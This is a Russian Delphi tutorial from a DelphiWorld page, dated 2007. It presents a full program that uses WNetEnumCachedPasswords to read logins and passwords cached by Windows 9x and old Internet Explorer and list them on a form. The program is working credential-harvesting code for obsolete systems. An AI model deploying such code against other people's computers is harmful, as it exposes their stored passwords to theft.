 ```yaml
---
Title: Тянем пароли из кэша
Date: 01.01.2007
---
```



Тянем пароли из кэша
====================

::: {.date}
01.01.2007
:::

Так, сегодня мы рассмотрим как можно взять кэшированные пароли из 9x
винды, а также из винды, где в установленном виде есть 5-я иешка (хотя
может и 4-ой хватит:)

    unit Unit1;
     
    interface
     
    uses
      Windows, SysUtils, Classes, Forms, ShellAPI, Controls, StdCtrls;
     
    type
        TForm1 = class(TForm)
        GroupBox1: TGroupBox;
        ListBox: TListBox;
        Label1: TLabel;
        Label2: TLabel;
        procedure Label1Click(Sender: TObject);
        procedure FormShow(Sender: TObject);
      private
        { Private declarations }
      public
        { Public declarations }
        hMPR: THandle;
    end;
     
    // Отсюда мы можем заключить что должно валяться на форме,
    // надеюсь вы сами всё закидаете, а если нет, то вам дорога в хелпы.
     
    var
      Form1: TForm1;
     
    const
      Count: Integer = 0;
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; stdcall;
     
    implementation
    {$R *.DFM}
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; external mpr name 'WNetEnumCachedPasswords';
     
    // Объявляем функцию внешней, надеюсь вы поняли
    // каким макаром, или вам опять в хелпы
     
    type
      PWinPassword = ^TWinPassword;
      TWinPassword = record
      EntrySize: Word;
      ResourceSize: Word;
      PasswordSize: Word;
      EntryIndex: Byte;
      EntryType: Byte;
      PasswordC: Char;
    end;
     
    // Объявляем все типы, которые будем юзать в проге.
     
    var
      WinPassword: TWinPassword;
     
    // Собственно переменные :-)
     
    function AddPassword(WinPassword: PWinPassword; dw: DWord): LongBool; stdcall;
    var
      Password: string;
      PC: array[0..$FF] of Char;
    begin
      inc(Count);
      // Увеличиваем число паролей на 1
      Move(WinPassword.PasswordC, PC, WinPassword.ResourceSize);
      // Получаем в PC пароль
      PC[WinPassword.ResourceSize] := #0;
      CharToOem(PC, PC);
      Password := StrPas(PC);
      // После недолгих преобразований в Password имеем кэшированный логин
      Move(WinPassword.PasswordC, PC, WinPassword.PasswordSize + WinPassword.ResourceSize);
      Move(PC[WinPassword.ResourceSize], PC, WinPassword.PasswordSize);
      PC[WinPassword.PasswordSize] := #0;< BR> CharToOem(PC, PC);
      // Теперь в PC имеем пароль
      Password := Password + ': ' + StrPas(PC);
      // Разделяем логин и пароль двуеточием...
      Form1.ListBox.Items.Add(Password);
      // ...и добавляем в ListBox на форме
      Result := True;
      // Возвращаемся с положительным результатом
    end;
     
    procedure TForm1.Label1Click(Sender: TObject);
    begin
      // при нажатии на лэйбл открываем окошко ие с нашим любимым сайтом :-)
      ShellExecute(GetDesktopWindow, 'open', 'http://www.lamerov.net', nil, nil, 0);
    end;
     
    procedure TForm1.FormShow(Sender: TObject);
    begin
      // А теперь сама процедура заполнения всех паролей.
      if WNetEnumCachedPasswords(nil, 0, $FF, @AddPassword, 0) <> 0 then
      // Если не найден кэшированый пароль, то
      begin
        Application.MessageBox('Cant load passwords: User is not logon.',
        'Error', mb_Ok or mb_IconWarning);
        Application.Terminate;
        // Выдаем сообщение об этом
      end
      // иначе,
      else
      if Count = 0 then
        // если паролей всего 0 то тоже об этом сообщаем
        ListBox.Items.Add('No passwords found...');
    end;
     
    end.

Вы наверное спросите: как же все таки дельфи попадает туда куда нам
нужно, то есть на функцию обработки паролей и почемы она кэшит их всех,
хотя функцию вызывали всего одни раз, а очень просто. Помните строку
WNetEnumCachedPasswords(nil, 0, $FF, @AddPassword, 0) так вот она все
и делает. Надеюсь вопросов не осталось.

<https://delphiworld.narod.ru/>

DelphiWorld 6.0

